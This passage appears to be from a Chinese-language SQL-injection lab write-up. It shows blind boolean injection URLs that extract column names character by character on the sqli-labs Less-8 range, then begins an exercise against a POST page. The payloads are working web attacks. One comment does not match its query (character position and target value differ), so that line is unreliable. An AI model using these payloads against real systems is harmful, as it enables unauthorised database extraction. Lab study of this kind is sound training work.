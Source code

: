 - 开始爆破每一个``字段名``-->id

```sql
//爆破第一个字段的第一个字符-->105
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),1,1))=105)) --+
```

```sql
//爆破第二个字段的第一个字符-->100
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),2,1))=105)) --+
```

- 获取数据也是一样的,相对比较繁琐就不展示了

------

### 练习4

- 目标url:http://1.14.28.17:26053/post.php

- 刚开始拿到网页确实觉得有点难,没有任何回显,无从下手,无奈选择使用yakit进行抓包

![image-20240822231802250](assets/image-20240822231802250.png)
